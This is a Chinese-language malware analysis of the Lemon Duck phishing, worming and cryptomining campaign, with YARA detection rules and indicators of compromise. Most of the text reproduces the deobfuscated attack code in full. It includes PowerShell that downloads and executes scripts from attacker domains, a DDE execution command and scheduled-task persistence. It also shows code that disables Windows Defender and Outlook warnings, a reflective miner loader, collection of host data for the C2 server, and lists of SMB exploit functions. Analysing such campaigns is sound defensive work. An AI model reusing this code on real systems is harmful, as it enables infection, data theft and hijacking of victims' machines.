rule Office_DDE_field {
  strings:
    $a = /<w:fldChar\s+?w:fldCharType="begin"\/>.+?\b[Dd][Dd][Ee]\b.+?<w:fldChar\s+?w:fldCharType="end"\/>/
  condition:
    $a
}
rule Office_OLE_DDEAUTO {
  strings:
    $a = /\x13\s*DDEAUTO\b[^\x14]+/ nocase
  condition:
    uint32be(0) == 0xD0CF11E0 and $a
}
rule Office_OLE_DDE {
  strings:
    $a = /\x13\s*DDE\b[^\x14]+/ nocase
  condition:
    uint32be(0) == 0xD0CF11E0 and $a
}
```

Mimikatz YARA检测规则：

```yacas
rule mimikatz
{
	meta:
		description		= "mimikatz"
		author			= "Benjamin DELPY (gentilkiwi)"
		tool_author		= "Benjamin DELPY (gentilkiwi)"
	strings:
		$exe_x86_1		= { 89 71 04 89 [0-3] 30 8d 04 bd }
		$exe_x86_2		= { 8b 4d e? 8b 45 f4 89 75 e? 89 01 85 ff 74 }
		$exe_x64_1		= { 33 ff 4? 89 37 4? 8b f3 45 85 c? 74}
		$exe_x64_2		= { 4c 8b df 49 [0-3] c1 e3 04 48 [0-3] 8b cb 4c 03 [0-3] d8 }
		$dll_1			= { c7 0? 00 00 01 00 [4-14] c7 0? 01 00 00 00 }
		$dll_2			= { c7 0? 10 02 00 00 ?? 89 4? }
		$sys_x86		= { a0 00 00 00 24 02 00 00 40 00 00 00 [0-4] b8 00 00 00 6c 02 00 00 40 00 00 00 }
		$sys_x64		= { 88 01 00 00 3c 04 00 00 40 00 00 00 [0-4] e8 02 00 00 f8 02 00 00 40 00 00 00 }
	condition:
		(all of ($exe_x86_*)) or (all of ($exe_x64_*)) or (all of ($dll_*)) or (any of ($sys_*))
}
```


### PUBLIC KEY：

攻击者使用用来验证C&C服务器返回内容的RSA公钥：

```
-----BEGIN RSA PUBLIC KEY-----
2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0 M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10=
-----BEGIN RSA PUBLIC KEY-----
```


#### 其使用的IEX (invoke-expression) 混淆:

```powershell
# mail.jsp
( $SHEllid[1]+$sHELlID[13]+'X')
( $EnV:cOmSpeC[4,15,25]-JoiN'')
## 2020-05-21
( $VErboseprEFereNCe.TOstRING()[1,3]+'X'-joIN'')
# x.jsp
( $sHEllid[1]+$ShELlID[13]+'x')
( ([StrINg]$vERbosepRefEreNcE)[1,3]+'X'-jOIN'') 
$sHeLlID[1]+$ShELLID[13]+'X'
# if.bin
( $SHElLid[1]+$sHElLID[13]+'X')
$PSHOME[4]+$pSHoMe[30]+'x'
( $pSHoMe[21]+$PShoME[30]+'x')
# report.jsp
((varIABlE '*mDR*').NAME[3,11,2]-jOin'')
((Gv '*mdR*').nAme[3,11,2]-joiN'')
# a.jspmail
(([strINg]$VErBoSeprEFErenCE)[1,3]+'x'-Join'')
( $ShelLId[1]+$sHelliD[13]+'x') 
( $enV:comSPec[4,15,25]-jOin'')
## 2020-05-21
( $pSHOMe[21]+$pSHome[34]+'X')

# if_main.bin
( $VerbOsepReFeRencE.TOsTring()[1,3]+'x'-jOin'')
((vArIaBLe '*MDr*').Name[3,11,2]-JoiN'')
( $Env:comSPEc[4,15,25]-JoIN'') 

# 7p.php
( $ShelLiD[1]+$SHellid[13]+'X')
( $pShOmE[4]+$PsHomE[34]+'X')
# rdp.jsp
( $VErboseprEFereNCe.TOstRING()[1,3]+'X'-joIN'')
( $PShOME[4]+$pShOmE[34]+'X')
( $Env:comsPeC[4,26,25]-jOin'')

# ipc.ps1
((VaRiaBlE '*MDr*').NAme[3,11,2]-jOIN'')
( $VeRboseprefERENcE.toSTRiNg()[1,3]+'X'-JOIn'')
```


## 详细分析


我们以其中一次观测到的攻击链为例，梳理下整个攻击流程 ：

### 从收到邮件开始

我们收到一封来自常用联系人的邮件，可能包含以下内容：

```powershell
("The Truth of COVID-19","Virus actually comes from United States of America"),
("COVID-19 nCov Special info WHO","very important infomation for Covid-19 see attached document for your action and discretion."),
("HALTH ADVISORY:CORONA VIRUS","the outbreak of CORONA VIRUS is cause of concern especially where forign personal have recently arrived or will be arriving at various intt in near future.see attached document for your action and discretion."),

("WTF","what's wrong with you?are you out of your mind!!!!!"),

("What the fcuk","are you out of your mind!!!!!what 's wrong with you?"),
("good bye","good bye, keep in touch"),
("farewell letter","good bye, keep in touch"),
("broken file","can you help me to fix the file,i can't read it"),
("This is your order?","file is brokened, i can't open it")
)
```

因为邮件来自于熟知的人，这封邮件投递成功并被阅读的可能性很大。

其中包含两个附件：

`Readme.doc` 和 `Readme.zip`

打开 `Readme.doc` ，若电脑系统存在CVE-2017-8570漏洞，在文档打开时，其Package对象包含的由发件方随机命名生成的`.sct`恶意脚本文件会自动释放到我们的临时目录，该`.sct`文件被文档中的第二个objdata对象加载并执行。

文档打开后的截图：


此外，我们还能看到这样的告警：





这是由于在RTF文档中还利用OfficeDDE功能进行执行,以提高攻击成功几率：

```powershell
$dde_cmd="powershell [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:%tmp%\$filename').Exec(0)&"
```


以下是解析后的在`.sct`文件中插入的Powershell命令：

```powershell
IEx(New-Object Net.WebClient).DownLoadString(\'http://t.tr2q.com/7p.php?0.7*mail_doc*%username%*%computername%*\'+[Environment]::OSVersion.version.Major);
bpu (\'http://t.tr2q.com/mail.jsp?doc_0.7\');
del %tmp%\\RANDOM.sct
```

执行后`.sct`还会将自己从临时目录中删除。


#### 7p.php  (BypassUAC)

```
http://t.tr2q.com/7p.php?0.7*mail_doc*<SYS ENV>
(MD5 = f8dc697b1812f61cf56bb656e90eabce)
```

去除多层混淆后，发现其定义:

函数bpu  (BypassUAC的意思，命名规范真好，不输普通程序猿)

```powershell
function bpu($payload){
	# windows版本
	$ver=[Environment]::OSVersion.Version.Major
	# # 关闭WindowsDefender 实时防护
	# cmd /c echo Set-MpPreference -DisableRealtimeMonitoring 1;
	# Add-MpPreference -ExclusionPath c:\;
	# Add-MpPreference -ExclusionProcess c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe|powershell -w hidden
	}
	# 如果是win10
	if ($ver -eq 10) {
	# ……
	}
	# UAC绕过获得管理员权限
	# ……
}
```

用以关闭WindowsDefender实时防护，和以管理员权限执行传入的远程脚本


#### mail.jsp (create schtasks)

```
http://t.tr2q.com/mail.jsp?doc_0.7\
(MD5 = 51f6eba99e2b33e5458d78e41a130fe2)
```


```powershell
$v="?$v"+(Get-Date -Format '_yyyyMMdd')
# 存储攻击指令的变量
$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient)."DownloadData"($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'
# 判断当前是否是超级管理员权限
$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
# DGA函数(其实是纯随机字串函数)
function getRan(){return -join([char[]](48..57+65..90+97..122)|Get-Random -Count (6+(Get-Random)%6))}
$us=@('t.awcna.com','t.zer9g.com','t.amynx.com')
$stsrv = New-Object -ComObject Schedule.Service
$stsrv.Connect()
# 查看是否已经存在名为blackball的定时任务
try{
	$doit=$stsrv.GetFolder("\").GetTask("blackball")
}catch{}
if(-not $doit){
	if($sa){
		schtasks /create /ru system /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	} else {
		schtasks /create /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	}
	foreach($u in $us){
		# 获取域名下标
		$i = [array]::IndexOf($us,$u)
		# 根据除3余数，选择计划任务名
		if($i%3 -eq 0){$tnf=''}
		if($i%3 -eq 1){$tnf=getRan}
		if($i%3 -eq 2){if($sa){$tnf='MicroSoft\Windows\'+(getRan)}else{$tnf=getRan}}
		$tn = getRan
		if($sa){
			# 每60分  执行命令powershell PS_CMD  /F 阻止系统确认消息
			schtasks /create /ru system /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		} else {
			schtasks /create /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		}
		start-sleep 1
		# 获取指定位置的定时任务
		$folder=$stsrv.GetFolder("\$tnf")
		# 获取非隐藏任务以外的所有任务
		$taskitem=$folder.GetTasks(1)
		foreach($task in $taskitem){
			foreach ($action in $task.Definition.Actions) {
				try{
					# 若参数中存在PS_CMD
					if($action.Arguments.Contains("PS_CMD")){	
						# 替换为攻击指令
						$folder.RegisterTask($task.Name, $task.Xml.replace("PS_CMD",$tmps.replace('U1',$u.substring(0,5)).replace('U2',$u.substring(5))), 4, $null, $null, 0, $null)|out-null
					}
				}catch{}
			}
		}
		schtasks /run /tn "$tnf\$tn"
		start-sleep 5
	}
}

# 删除老版本任务
schtasks /delete /tn Rtsa2 /F
schtasks /delete /tn Rtsa1 /F
schtasks /delete /tn Rtsa /F

```

功能上跟上版本的样本相比（MD5=51f6eba99e2b33e5458d78e41a130fe2）去除Host文件写入

最终写入计划任务的攻击指令：

```powershell
function a($u){
    $d=(New-Object Net.WebClient)."DownloadData"($u)
    $c=$d.count
    if($c -gt 173){$b=$d[173..$c]
    $p=New-Object Security.Cryptography.RSAParameters
    $p.Modulus=[convert]::FromBase64String('2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10=')
    $p.Exponent=0x01,0x00,0x01
    $r=New-Object Security.Cryptography.RSACryptoServiceProvider
    $r.ImportParameters($p)
    if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){Iex(-join[char[]]$b)}}
}
$url='http://'+'t.zer'+'9g.com'
a($url+'/a.jsp?mail_20200603?'+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join'*'))

```

通过RSA校验后请求并执行远程脚本`a.jsp`

PS: 在之前的活动中，计划任务命名Rtsa，Rtsa1，Rtsa2（与之前不同的是bluetea，blackball均不具有实际命令执行，只是起到Flag的作用，避免重复写入计划任务）


#### a.jsp （挖矿及传播）

```
http://t.zer9g.com/a.jsp?<SYS ENV><RANDOM NUM>
(MD5 = 1540b9fe58b8279bd256aaad9d879fbe)
```

`a.jsp` 的操作复杂很多，主要是

加载执行 `if.bin`蠕虫模块

根据系统环境选择执行`m6.bin` /`m6g.bin` 挖矿程序，后者可利用显卡加速，并下载显卡挖矿需要的DLL文件

关闭Outlook安全告警，加载执行`if_mail.bin`

```powershell
# 判断当前运行环境 64位/32位
if([IntPtr]::Size -eq 8){$is64=$true}
$ifbin="if.bin"
$ifmd5="45ef8d4faac68bd425bfdfe064602377"
if($is64){
	$mbin="m6.bin"
	$mmd5="5b2849ff2e8c335dcc60fd2155b2d4d3"
	$mgbin="m6g.bin"
	$mgmd5="23d59ed726e13edabcb751da7a5ce310"
}
# md5生成函数
function gmd5($d){
	[Security.Cryptography.MD5]::Create().ComputeHash($d)|foreach{$l+=$_.ToString('x2')}
	return $l
}
# 本地PayloadsMD5
$lifmd5,$lmmd5,$lmgmd5="","",""
try{
	$lifmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$ifbin"))
}catch{}
try{
	$lmmd5=gmd5 ([IO.File]::ReadAllBytes("$env:tmp\$mbin"))
}catch{}
$down_url = "http://d.ackng.com"

# 获取mail.jsp定义的$url='http://'+'t.zer'+'9g.com'
$core_url = $url.split("/")[0..2]-join"/"
# 管理员权限判定
$permit = ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")

# 系统信息获取
$comp_name = $env:COMPUTERNAME
$guid = (get-wmiobject Win32_ComputerSystemProduct).UUID
$mac = (Get-WmiObject Win32_NetworkAdapterConfiguration | where {$_.ipenabled -EQ $true}).Macaddress | select-object -first 1
$osb = (Get-WmiObject -class Win32_OperatingSystem)
# 系统版本
$os = $osb.Caption.replace("Microsoft Windows ","")+"_"+$osb.Version
$user = $env:USERNAME
# 域信息获取
$domain = (Get-WmiObject win32_computersystem).Domain
# 开机时间
$uptime = [timespan]::FromMilliseconds([environment]::TickCount)|foreach{$_.totalseconds}
# 显卡信息获取
$card = (Get-WmiObject Win32_VideoController).name
# 获取内存信息
gwmi Win32_PhysicalMemory | %{$msum = 0} { $msum += $_.Capacity };
$mem=$msum/1Gb
# 获取满足条件的存储盘信息
try{
	$drive = ([system.IO.DriveInfo]::GetDrives() | where {$_.IsReady -and ($_.AvailableFreeSpace -gt 1024) -and (($_.DriveType -eq "Removable") -or ($_.DriveType -eq "Network")) -and (($_.DriveFormat -eq "NTFS") -or ($_.DriveFormat -eq "FAT32"))} | foreach{($_.Name)[0]+"_"+($_.DriveType.tostring())[0]})-join"|"
}catch{}

$timestamp = (Get-Date -UFormat "%s").Substring(0,9)
# XMRig矿工信息
try{
	[Reflection.Assembly]::LoadWithPartialName("System.Web.Extensions")
	$obj = (New-Object Web.Script.Serialization.JavaScriptSerializer).DeserializeObject((new-object net.webclient)."downloadstring"('http://127.0.0.1:43669/1/summary'))
	$mv=$obj.version
	$mip=$obj.connection.ip
	$mhr=$obj.hashrate.total-join(',')
}catch{}
# 关闭windows Defender的实时检测
try{
	Set-MpPreference -DisableRealtimeMonitoring $true
	Add-MpPreference -ExclusionPath c:\
	Add-MpPreference -ExclusionProcess c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe
}catch{}

if(($card -match "GTX|NVIDIA|GEFORCE")){$isn=1}
if(($card -match "Radeon|AMD")){$isa=1}
$params=@($comp_name,$guid,$mac)-join"&"
set-location $env:tmp
# 调用cmd执行命令的函数
function stp($gra){
	Start-Process -FilePath cmd.exe -ArgumentList "/c $gra"
}

# 提交本地信息$comp_name,$guid,$mac并下载/运行指定文件并校验其MD5
function gcf($code,$md,$fn){
	'powershell -c "'+$code+';$ifmd5='''+$md+''';$ifp=$env:tmp+''\'+$fn+''';$down_url='''+$down_url+''';function gmd5($con){[System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{$s+=$_.ToString(''x2'')};return $s}if(test-path $ifp){$con_=[System.IO.File]::ReadAllBytes($ifp);$md5_=gmd5 $con_;if($md5_-eq$ifmd5){$noup=1}}if(!$noup){$con=(New-Object Net.WebClient)."downloaddata"($down_url+''/'+$fn+'?'+$params+''');$t=gmd5 $con;if($t-eq$ifmd5){[System.IO.File]::WriteAllBytes($ifp,$con)}else{$noup=1}}if($noup){$con=$con_;$ifmd5=$md5_}'
}
#  与上个版本之前的区别在于 生成fnam.exe.ori文件  拷贝为 $fnam.bin.exe 并在CMD后台执行，之前是start-process 

# 反射式加载运行下载的文件
function gpa($fnam){
	'for($i=0;$i -lt $con.count-1;$i+=1){if($con[$i] -eq 0x0a){break}};iex(-join[char[]]$con[0..$i]);$bin=(New-Object IO.BinaryReader(New-Object System.IO.Compression.GzipStream (New-Object System.IO.MemoryStream(,$con[($i+1)..($con.count)])), ([IO.Compression.CompressionMode]::Decompress))).ReadBytes(10000000);$bin_=$bin.Clone();$mep=$env:tmp+'''+"\$fnam.exe.ori"+''';[System.IO.File]::WriteAllBytes($mep,$bin_+((1..127)|Get-Random -Count 100));test1 -PEBytes $bin"'+"&copy /y %tmp%\$fnam.exe.ori %tmp%\$fnam.bin.exe & %tmp%\$fnam.bin.exe"
}

# 判定/获取特定互斥锁是否存在
# try{
# 	$localIf=$flase;
#	# 创建名为Global\eLocalIf的锁,如果有不再创建
# 	New-Object Threading.Mutex($true,'Global\eLocalIf',[ref]$localIf);
# }catch{}
function gcode($fl) {
	'try{$local'+$fl+'=$flase;New-Object Threading.Mutex($true,''Global\eLocal'+$fl+''',[ref]$local'+$fl+')}catch{}'
}

$code1=gcode "If"
IEx $code1

# 如果是新创建的Global\eLocalIf则运行
# $ifp=$env:tmp+'\if.bin';
# $down_url='http://d.ackng.com';
# function gmd5($con){
#     [System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{
#         $s+=$_.ToString('X2')
#         };
#     return $s
# }
# # 是否存在if.bin，存在则读取，并进行MD5校验
# if(test-path $ifp){
#     $con_=[System.IO.File]::ReadAllBytes($ifp);
#     $md5_=gmd5 $con_;
#     if($md5_-eq$ifmd5){
#         $noup=1
#     }
# }
# # 若没有通过MD5,或文件不存在则下载
# if(!$noup){
#     # http://d.ackng.com/if.bin?
#     $con=(New-Object Net.WebClient)."downloaddata"($down_url+'/if.bin?');
#     $t=gmd5 $con;
#     if($t-eq$ifmd5){
#         [System.IO.File]::WriteAllBytes($ifp,$con)
#     }else{$noup=1}
# }
# if($noup){
#     $con=$con_;
#     $ifmd5=$md5_
# }
# # 这里有个小细节，若机器上没有if.bin且下载的if.bin没有通过MD5校验的则不会执行其包含的命令
# IEX(-join[char[]]$con)
if($localIf){
	stp ((gcf $code1 $ifmd5 $ifbin)+'IEX(-join[char[]]$con)"')
}

# 用多函数拼接生成语句，逃避检测
# 针对64位系统
if($is64){
	# try{
	# 	$localMn=$flase;
	# 	New-Object Threading.Mutex($true,'Global\eLocalMn',[ref]$localMn)
	# }catch{}
	$code2=gcode "Mn"
	IEx $code2
	if($localMn){
		# $ifmd5='5b2849ff2e8c335dcc60fd2155b2d4d3';
		# $ifp=$env:tmp+'\m6.bin';
		# $down_url='http://d.ackng.com';
		# function gmd5($con){
		# 	[System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{
		# 		$s+=$_.ToString('X2')};
		# 	return $s
		# }

		# if(test-path $ifp){
		# 	$con_=[System.IO.File]::ReadAllBytes($ifp);
		# 	$md5_=gmd5 $con_;
		# 	if($md5_-eq$ifmd5){
		# 		$noup=1
		# 	}
		# }
		# if(!$noup) {
		# 	# http://d.ackng.com/m6.bin?
		# 	$con=(New-Object Net.WebClient)."downloaddata"($down_url+'/m6.bin?');
		# 	$t=gmd5 $con;
		# 	if($t-eq$ifmd5){
		# 		[System.IO.File]::WriteAllBytes($ifp,$con)
		# 	}
		# 	else{
		# 		$noup=1
		# 	}
		# }
		# if($noup){
		# 	$con=$con_;
		# 	$ifmd5=$md5_
		# }

		# ### 以下是gpa函数生成的代码
		# for($i=0;$i -lt $con.count-1;$i+=1){
		# 	if($con[$i] -eq 0x0a){
		# 		break
		# 	}
		# }
		# # 以0x0A截断文件 ，执行前半部分，定义test1函数 
		# iex(-join[char[]]$con[0..$i]);

		# $bin=(New-Object IO.BinaryReader(New-Object System.IO.Compression.GzipStream (New-Object System.IO.MemoryStream(,$con[($i+1)..($con.count)])), ([IO.Compression.CompressionMode]::Decompress))).ReadBytes(10000000);
		# $bin_=$bin.Clone();
		# test1 -PEBytes $bin;
		# $mep=$env:tmp+'\m6.bin.exe';
		# # 在挖矿程序后追加随机字节，保存
		# [System.IO.File]::WriteAllBytes($mep,$bin_+((1..127)|Get-Random -Count 100));
		# # 运行上一步生成的程序
		# start-process -FilePath $mep
		stp ((gcf $code2 $mmd5 $mbin)+(gpa $mbin))
	}
}
if(($isn -or $isa) -and $is64){
	$code3=gcode "Mng"
	# try{
	# 	$localMng=$flase;
	# 	New-Object Threading.Mutex ($true,'Global\eLocalMng',[ref]$localMng)
	# }catch{ }
	IEx $code3
	if($localMng){
		stp ((gcf $code3 $mgmd5 $mgbin)+(gpa $mgbin))
	}
}
# 修改DNS
try{
	(get-wmiobject -class win32_networkadapterconfiguration -filter ipenabled=true).SetDNSServerSearchOrder(@('8.8.8.8','9.9.9.9'))
}catch{}

# 携带信息：
# 系统，系统位数，用户，域，磁盘，显卡，内存，管理员权限，本地蠕虫攻击Payload，本地xmrigPayload，xmrig版本，矿池地址，算力，开机时间，上传时间
$params+="&"+(@($os,[Int]$is64,$user,$domain,$drive,$card,$mem,[Int]$permit,($lifmd5[0..5]-join""),($lmmd5[0..5]-join""),$mv,$mip,$mhr,$uptime,$timestamp,"0.1")-join"&")
# 进行RSA签名校验后执行
function SIEX {  
	Param(
	[string]$url
	)
	try{
		$webclient = New-Object Net.WebClient
		$finalurl = "$url"+"?"+"$params"
		try{
			$webclient.Headers.add("User-Agent","Lemon-Duck-"+$Lemon_Duck.replace('\','-'))
		} catch{}
		$res_bytes = $webclient."DownloadData"($finalurl)
		if($res_bytes.count -gt 173){
			$sign_bytes = $res_bytes[0..171];
			$raw_bytes = $res_bytes[173..$res_bytes.count];
			$rsaParams = New-Object System.Security.Cryptography.RSAParameters
			# 公钥 	2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0 M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10=
			$rsaParams.Modulus = 0xda,0x65,0xa8,0xd7,0xbb,0x97,0xbc,0x6d,0x41,0x5e,0x99,0x9d,0x82,0xff,0x2f,0xff,0x73,0x53,0x9a,0x73,0x6e,0x6c,0x7b,0x55,0xeb,0x67,0xd6,0xae,0x4e,0x23,0x3c,0x52,0x3d,0xc0,0xcd,0xcd,0x37,0x6b,0xf3,0x4f,0x3b,0x62,0x70,0x86,0x07,0x96,0x6e,0xca,0xde,0xbd,0xa6,0x4f,0xf6,0x11,0xd1,0x60,0xdc,0x88,0xbf,0x35,0xf2,0x92,0xee,0x6c,0xb8,0x2e,0x9b,0x7d,0x2b,0xd1,0x19,0x30,0x73,0xc6,0x52,0x01,0xcd,0xe7,0xc7,0x34,0x78,0x8a,0xa7,0x9f,0xe2,0x12,0xcd,0x79,0x40,0xa7,0x91,0x6a,0xae,0x95,0x8e,0x42,0xd0,0xcf,0x39,0x6e,0x30,0xcb,0x0a,0x98,0xdb,0x97,0x3f,0xf6,0x2e,0x95,0x10,0x72,0xfd,0x63,0xd5,0xf7,0x88,0x63,0xa4,0x7b,0xae,0x97,0xea,0x38,0xb7,0x47,0x6b,0x5d
			$rsaParams.Exponent = 0x01,0x00,0x01
			$rsa = New-Object -TypeName System.Security.Cryptography.RSACryptoServiceProvider;
			$rsa.ImportParameters($rsaParams)
			$base64 = -join([char[]]$sign_bytes)
			$byteArray = [convert]::FromBase64String($base64)
			$sha1 = New-Object System.Security.Cryptography.SHA1CryptoServiceProvider
			if($rsa.verifyData($raw_bytes,$sha1,$byteArray)) {
				IEX (-join[char[]]$raw_bytes)
			}
		}
	} catch{}
}
SIEX "$core_url/report.jsp"
# flag文件 (0kb)
$ff=$env:tmp+'\GkPiGedjuq8f91j.txt'
# ff是否存在
if(!(Test-Path $ff)){
	## 打开防护墙设置DNS端口转发
	cmd.exe /c netsh.exe firewall add portopening tcp 65529 SDNSd
	netsh.exe interface portproxy add v4tov4 listenport=65529 connectaddress=1.1.1.1 connectport=53
	cmd.exe /c netsh.exe firewall add portopening tcp 65533 DNSd
	netsh.exe interface portproxy add v4tov4 listenport=65533 connectaddress=1.1.1.1 connectport=53
	# 禁止445，135的访问
	netsh advfirewall firewall add rule name="deny445" dir=in protocol=tcp localport=445 action=block
	netsh advfirewall firewall add rule name="deny135" dir=in protocol=tcp localport=135 action=block
	new-item $ff -type file
}
# 英伟达显卡且64位系统，会下载显卡加速挖矿插件
try{
	if($isn -and $is64){
		$nd="nvd.zip"
		$ndg="$env:tmp\nvdg.dat"
		if(!(test-path $ndg) -or (Get-Item $ndg).length -ne 18475008){
			(new-object Net.WebClient)."DownloadFile"($down_url+"/$nd","$env:tmp\$nd")
			(New-Object -ComObject Shell.Application).NameSpace($env:tmp).CopyHere("$env:tmp\$nd\*",16)
			Remove-Item $env:tmp\$nd
		}
	}
}catch{}

# 关闭Outlook的安全告警 
# 当程序尝试访问您的Outlook客户端以代表您发送电子邮件，并且检测到您的防病毒软件处于非活动状态或过期时，将显示此警告消息。

$hks="HKEY_LOCAL_MACHINE\SOFTWARE\"
$mso="Microsoft\Office"
$wnd="Wow6432Node\"
$crm="ClickToRun\REGISTRY\MACHINE\Software\"
$paths=@("$hks$mso","$hks$wnd$mso","$hks$mso\$crm$mso","$hks$mso\$crm$wnd$mso")

# 在32位Windows上运行的32位Office或在64位Windows上运行的64位Office
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office
# 在64位Windows上运行的32位Office 
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Office 
# 针对即点即用的Office版本
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office\ClickToRun\REGISTRY\MACHINE\Software\Microsoft\Office
# Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Office\ClickToRun\REGISTRY\MACHINE\Software\Wow6432Node\Microsoft\Office
foreach($path in $paths){
	if(test-path Registry::$path){
		get-childitem Registry::$path -name|where-object{$_ -match "\d+" -and (Test-Path Registry::$path\$_\Outlook)}|foreach{
			$skey="Registry::$path\$_\Outlook\Security"
			if(!(Test-Path $skey)){
				New-Item $skey
			}
			Set-ItemProperty $skey ObjectModelGuard 2 -type Dword
			$mflag=test-path $skey
	}}
}
# 关闭告警之后
if($mflag){
	try{
		$localMail=$flase;
		New-Object Threading.Mutex($true,'Global\LocalMail',[ref]$localMail)
	}catch{}
	if($localMail){
		if(!(test-path $env:tmp\godmali3.txt)){
			SIEX "$down_url/if_mail.bin"
		}
	}
}
```

其执行过程中开启的本地DNS转发截图：




##### if.bin（主要攻击模块）

根据系统环境中的全局互斥锁 `Global\eLocalIf`下载：

```
http://d.ackng.com/if.bin?
MD5 (if.bin) = df5c8f7677a3361d17cc1ba820436ce9
```

有个细节值得注意：

若机器上没有if.bin且下载的if.bin没有通过MD5校验（c2fcf4ebba3fbfa1fc4c82e728137076）

则一开始不会直接执行if.bin中包含的命令

在调查期间ifbin已经更新十二次之多：

```spreadsheet
if.bin MD5 "00d1474b36d8f9daed96334d95749861"
if.bin MD5 "2c2ce2150f73a4df14b0e83581f68af3"
if.bin MD5 "3053160f2072509f2e167f1e82c7b539"
if.bin MD5 "45ef8d4faac68bd425bfdfe064602377"
if.bin MD5 "54bf14b942f61a878b26d5b844ad5ae0"
if.bin MD5 "6a9c39d88715c5262b34a68cea4fa331"
if.bin MD5 "74eea0ef800d170d79ef7d66c6a97709"
if.bin MD5 "b5ee1e46de1f709e778c4a53a79c767d"
if.bin MD5 "c2fcf4ebba3fbfa1fc4c82e728137076"
if.bin MD5 "def23ff364e25f64342f39d3f64d5aeb"
if.bin MD5 "df8679bded63cb99fd3bed16bf5a4397"
if.bin MD5 "e5ae6d154a6befc00deea0ccb49dc9b8"
```

if.bin存在多次混淆加密，通过逆向最终得到一个长达1万多行的powershell脚本，定义多达一百七十多个函数，来进行横向移动

包含以下攻击：

-   端口扫描
-   EternalBlue/MS17-010  针对Win7/Win8
-   暴力破解，命令执行（除自身携带字典外，还会将获取本地口令/凭证加入字典）：
    -   $IPC
    -   SMB
    -   MS-SQL
    -   RDP
    -   NTLM
    -   SSH（2020-06-01新增，针对Linux root账号）
    -   WMI
-   CVE-2017-8464 
-   CVE-2020-0796 SMBGhost (2020年4月新增，漏洞在3月才披露)

其中包含函数（称之为军火库不为过）

```powershell
function make_smb1_anonymous_login_packet 
function smb1_anonymous_login
function negotiate_proto_request
function smb_header
function smb1_get_response
function client_negotiate
function tree_connect_andx
function tree_connect_andx_request
function smb1_anonymous_connect_ipc
function make_smb1_nt_trans_packet
function make_smb1_trans2_exploit_packet
function make_smb1_trans2_last_packet
function send_big_trans2
function createSessionAllocNonPaged
function make_smb1_free_hole_session_packet
function smb2_grooms
function make_smb2_payload_headers_packet
function eb7
function createFakeSrvNetBuffer8
function createFeaList8
function  make_smb1_login8_packet8 
function  make_ntlm_auth_packet8
function smb1_login8
function negotiate_proto_request8
function smb_header8
function smb1_get_response8
function client_negotiate8
function tree_connect_andx8
function tree_connect_andx8_request
function make_smb1_nt_trans_packet8
function make_smb1_trans2_exploit_packet8
function send_big_trans28
function createSessionAllocNonPaged8
function  make_smb1_free_hole_session_packet8
function make_smb2_payload_headers_packet8
function eb8
function Invoke-Myrdp
	function rdp_send
	function rdp_recv
	function rdp_send_recv
	function bytes_to_bignum
	function output
	function rdp_parse_serverdata
	function check_rdp
	function unpack
	function pdu_connect_initial
	function pdu_erect_domain_request
	function pdu_attach_user_request
	function pdu_channel_request
	function rsa_encrypt
	function pdu_security_exchange
	function pdu_client_info
	function pdu_client_confirm_active
	function pdu_client_persistent_key_list
	function rdp_salted_hash
	function rdp_hmac
